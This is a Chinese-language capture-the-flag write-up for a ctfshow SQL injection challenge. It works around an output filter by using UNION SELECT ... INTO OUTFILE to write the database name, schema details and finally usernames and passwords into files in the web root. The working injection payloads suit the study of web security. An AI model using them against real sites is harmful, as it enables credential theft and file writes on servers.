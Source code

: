 ![image-20250316171102430](./assets/image-20250316171102430.png)

同样存在输出过滤

同时/[\x00-\x7f]/是一个正则匹配，用于匹配任何 ASCII 字符。

即输出结果不能存在字符



将查询结果写入文件



首先还是闭合单引号，注释后续内容

```
1' --+
```

![image-20250316171255249](./assets/image-20250316171255249.png)



然后利用order by 确定回显数

```
1' order by 3 --+
```

![image-20250316171333564](./assets/image-20250316171333564.png)

order by 3报错

```
1' order by 2 --+
```

![image-20250316171342035](./assets/image-20250316171342035.png)

order by 2正常



查询数据库及版本信息

利用into outfile写入网站目录

```
1' union select database(),version() into outfile '/var/www/html/1.txt' --+
```



![image-20250316171712026](./assets/image-20250316171712026.png)



查询版本信息

```
1' union select 1,version() into outfile '/var/www/html/2.txt' --+
```

![image-20250316171758669](./assets/image-20250316171758669.png)



查询表名

```
1' union select 1,table_name from information_schema.tables where table_schema='ctfshow_web' into outfile '/var/www/html/3.txt' --+
```

![image-20250316171854627](./assets/image-20250316171854627.png)





查询字段名

```
1'union select 1,column_name from information_schema.columns where table_name='ctfshow_user5' into outfile '/var/www/html/4.txt' --+
```

![image-20250316172049340](./assets/image-20250316172049340.png)



查询字段数据

```
1' union select username,password from ctfshow_user5 into outfile '/var/www/html/5.txt'--+
```

![image-20250316172139990](./assets/image-20250316172139990.png)

得到flag